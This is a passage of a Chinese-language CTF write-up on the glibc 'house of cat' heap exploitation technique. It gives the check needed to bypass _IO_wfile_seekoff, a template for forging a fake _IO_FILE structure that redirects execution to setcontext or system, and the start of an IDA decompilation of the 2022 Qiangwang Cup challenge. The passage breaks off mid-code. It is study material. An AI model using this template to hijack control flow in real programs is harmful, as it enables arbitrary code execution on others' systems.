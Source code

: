 检测绕过

其实就是在 \_IO\_wfile\_seekoff 中

```bash
(fp->_wide_data->_IO_read_base== fp->_wide_data->_IO_read_end) && (fp->_wide_data->_IO_write_base== fp->_wide_data->_IO_write_ptr)
```

在 catf1y 师傅的原文里有构造模版

如下：

```bash
fake_io_addr=heapbase+0xb00 # 伪造的 fake_IO 结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```

call\_addr：setcontext 或 system 的地址

\_IO\_backup\_base：执行函数时的 rdx

\_flags：执行函数时的 rdi

注：若 FSOP 需将 vtable 改为 IO\_wfile\_jumps+0x30

# 例题：2022 强网杯 house of cat

## ida 分析

有一个登录模块

```bash
__int64 __fastcall sub_1DF3(__int64 a1)
{
  __int64 result; // rax
  unsigned int v2; // eax
  char *v3; // [rsp+18h] [rbp-8h]

  if ( *(a1 + 8) == 1 && !strcmp(*(a1 + 16), "admin") )
    dword_4040[0] = 1;
  result = *(a1 + 8);
  if ( result == 3 )
  {
    result = strtok(*(a1 + 16), "$");
    v3 = result;
    if ( result )
    {
      result = dword_4014;
      if ( *v3 == dword_4014 )
      {
```
